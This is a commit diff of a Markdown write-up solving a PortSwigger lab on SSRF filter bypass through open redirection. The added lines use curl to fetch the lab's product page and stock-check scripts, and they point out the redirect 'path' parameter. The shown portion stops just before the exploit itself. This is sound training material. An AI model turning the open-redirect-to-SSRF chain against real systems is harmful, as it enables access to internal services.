

Before and after one commit to echoesofwhoami/CurlSwiggerLabs, a Markdown page: docs/ssrf-filter-bypass-open-redirection.md, 3 parts joined by grey strips. Shown: that part at 93% size. GitHub-like rendering; pictures changed too: screenshots/ssrf-filter-bypass-open-redirection/03_product_detail_page.png (deleted); blank space fills up the shorter version.

````diff
--- a/docs/ssrf-filter-bypass-open-redirection.md
+++ b/docs/ssrf-filter-bypass-open-redirection.md
@@ -27,15 +34,45 @@ In the main page html we can find the product detail link
 Lets curl it and see the response.
 
-![Product detail page](../screenshots/ssrf-filter-bypass-open-redirection/03_product_detail_page.png)
+```bash
+curl -s "https://<lab-url>.web-security-academy.net/product?productId=1" | cat
+```
+
+The product detail page contains the following key elements:
+
+```html
+<SNIP>...<SNIP>
+
+  <form id="stockCheckForm" action="/product/stock" method="POST">
+      <select name="stockApi">
+          <option value="/product/stock/check?productId=1&storeId=1">London</option>
+          <option value="/product/stock/check?productId=1&storeId=2">Paris</option>
+          <option value="/product/stock/check?productId=1&storeId=3">Milan</option>
+      </select>
+      <button type="submit" class="button">Check stock</button>
+  </form>
+  <span id="stockCheckResult"></span>
+  <script src="/resources/js/stockCheckPayload.js"></script>
+  <script src="/resources/js/stockCheck.js"></script>
+  <div class="is-linkback">
+      <a href="/">Return to list</a>
+      <a href="/product/nextProduct?currentProductId=1&path=/product?productId=2">| Next product</a>
+  </div>
+
+<SNIP>...<SNIP>
+```
 
 There are a couple of interesting things here:
 
-1. The javascript code that is executed when the page is loaded
+1. Some javascript code that provides the client-side behavior of this page
 2. The path parameter on this link: ```<a href="/product/nextProduct?currentProductId=1&path=/product?productId=2">| Next product</a>```
 
 Lets explore the javascript code to understand the client-side behavior of this page:
 
-This code is adding an event listener to the form that we've seen in the previous screenshot (with the id "stockCheckForm") to the submit event, this event will call the function "stockCheck" with the method "POST", the action "product/stock" and the form data as a parameter, the first javascript snippet will mostly turn the payload into a x-www-form-urlencoded string and provide the application/x-www-form-urlencoded header to the request.
+```bash
+curl -s "https://<lab-url>.web-security-academy.net/resources/js/stockCheckPayload.js" | cat
+```
+
+Response:
 
 ```javascript
 # stockCheckPayload.js
@@ -44,7 +81,17 @@ window.contentType = 'application/x-www-form-urlencoded';
 function payload(data) {
     return new URLSearchParams(data).toString();
 }
+```
 
+This first JavaScript snippet sets up the content type header and provides a utility function to convert form data into URL-encoded format for the HTTP request.
+
+```bash
+curl -s "https://<lab-url>.web-security-academy.net/resources/js/stockCheck.js" | cat
+```
+
+Response:
+
+```javascript
 # stockCheck.js
 document.getElementById("stockCheckForm").addEventListener("submit", function(e) {
     checkStock(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
@@ -100,4 +187,7 @@ curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/produ
 ```
+
+> **Command breakdown**: \
+`-v` = verbose mode, this will show the response headers
 
 Response: `HTTP/2 302` with `location: http://portswigger.net`
 
@@ -129,6 +219,6 @@ We need to chain these vulnerabilities:
 
 Let's craft our exploit:
 
-**Note**: In this lab, the target IP `192.168.0.12:8080` and admin panel location are provided in the lab description. In a real-world scenario, you would need to discover this information through network enumeration, port scanning, and path discovery techniques.
+**Note**: In this lab, the target IP `192.168.0.12:8080` and admin panel location are provided in the lab description. In a real-world scenario, you would need to discover this information through internal network enumeration, port scanning, and path discovery techniques.
 
 ```bash
````
Also changed, not shown: other parts of docs/ssrf-filter-bypass-open-redirection.md (+66 -21 lines), README.md (+0 -1 lines), screenshots/ssrf-filter-bypass-open-redirection/01_home_page.png, screenshots/ssrf-filter-bypass-open-redirection/02_product_detail.png (deleted), screenshots/ssrf-filter-bypass-open-redirection/05_admin_panel.png.
